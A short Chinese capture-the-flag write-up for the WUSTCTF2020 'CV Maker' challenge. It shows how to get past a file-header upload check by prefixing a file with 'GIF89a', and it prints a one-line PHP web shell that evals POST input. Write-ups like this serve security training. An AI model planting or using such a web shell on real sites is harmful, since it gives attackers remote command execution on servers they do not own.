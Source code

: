 # [WUSTCTF2020]CV Maker 文件头检查

这道很简单

首先注册登入



<img src="https://i-blog.csdnimg.cn/blog_migrate/61bc428db7d86d0cea7c594b23eadadf.png" alt="" style="max-height:336px; box-sizing:content-box;" />


很显然是我们文件上传

我们直接随便上传一个看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/fb55c7373b447050951c7a19007c0d4c.png" alt="" style="max-height:266px; box-sizing:content-box;" />


报错了我们去看看 这个exif是什么



<img src="https://i-blog.csdnimg.cn/blog_migrate/8ee2b6ba0d2befa81dd97d9fa03d3f1e.png" alt="" style="max-height:235px; box-sizing:content-box;" />


就是检查文件头 那我们直接修改文件头上传即可

```cobol
GIF89a
<script language="php">
    @eval($_POST['cmd']);
</script>
```

上传修改php即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/23d613b8101e27b4fc63c9e9d64b46f9.png" alt="" style="max-height:92px; box-sizing:content-box;" />